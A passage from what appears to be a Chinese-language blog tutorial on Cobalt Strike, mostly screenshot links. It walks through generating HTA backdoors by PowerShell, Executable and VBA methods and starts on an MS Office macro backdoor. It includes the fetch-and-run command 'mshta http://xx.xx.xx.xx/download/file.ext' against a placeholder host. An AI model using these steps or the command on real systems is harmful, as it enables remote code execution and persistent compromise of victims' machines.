 

![](https://img-blog.csdnimg.cn/20200531172726548.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



基于PowerShell方式生成的hta文件，执行上线



![](https://img-blog.csdnimg.cn/20200628175723887.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200628175836161.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2020062818032949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



执行mshta上线成功：mshta http://xx.xx.xx.xx/download/file.ext



![](https://img-blog.csdnimg.cn/20200628180118598.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



基于Executable方式生成的hta文件，执行报错如下



![](https://img-blog.csdnimg.cn/20200531172851929.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



基于VBA方式生成的hta文件，执行报错如下



![](https://img-blog.csdnimg.cn/20200531172932326.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### MS Office Macro



攻击——>生成后门——>MS Office Macro



![](https://img-blog.csdnimg.cn/20200618130048657.png)  

然后选择一个监听器，点击Generate



![](https://img-blog.csdnimg.cn/20200618130118518.png)



然后点击Copy Macro

